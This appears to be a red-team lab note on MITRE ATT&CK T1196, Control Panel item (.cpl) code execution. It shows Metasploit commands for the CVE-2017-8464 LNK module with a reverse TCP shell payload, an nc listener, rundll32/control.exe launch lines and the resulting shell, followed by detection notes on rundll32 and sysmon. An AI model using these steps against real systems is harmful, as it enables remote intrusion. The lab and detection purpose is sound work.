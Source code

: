 ```yaml
---
description: >-
  This technique allows executing arbitraty code and possibly bypass application
  whitelisting.
---
```


# T1196: Control Panel Item Code Execution

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1196\",\"type\":\"link\",\"title\":\"Control Panel Items - ATT&CK for Enterprise\"}" %}

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker" %}
```bash
msfconsole
use windows/local/cve_2017_8464_lnk_lpe
set payload windows/x64/shell_reverse_tcp
set lhost 10.0.0.5
exploit

root@~# nc -lvp 4444
listening on [any] 4444 ...
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We can see that the .cpl is simply a DLL with DllMain function exported:

![](../.gitbook/assets/lnk-dllmain%20%281%29.png)

A quick look at the dissasemble of the dll suggests rundll32 will be spawned and thread code injection may take place:

![](../.gitbook/assets/lnk-dissasm.png)

{% code-tabs %}
{% code-tabs-item title="victim" %}
```bash
control.exe .\FlashPlayerCPLApp.cpl
# or
rundll32.exe shell32.dll,Control_RunDLL file.cpl
# or
rundll32.exe shell32.dll,Control_RunDLLAsUser file.cpl
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker" %}
```text
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 49346
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Note how rundll32 spawns a command prompt and establishes a connection back to the attacker -  these are signs that should raise suspicion when you come across something like this in your environment:

![](../.gitbook/assets/lnk-connection.png)

As always, sysmon logging can help find suspicious commandlines being executed in your environment:

![](../.gitbook/assets/lnk-sysmon%20%281%29.png)

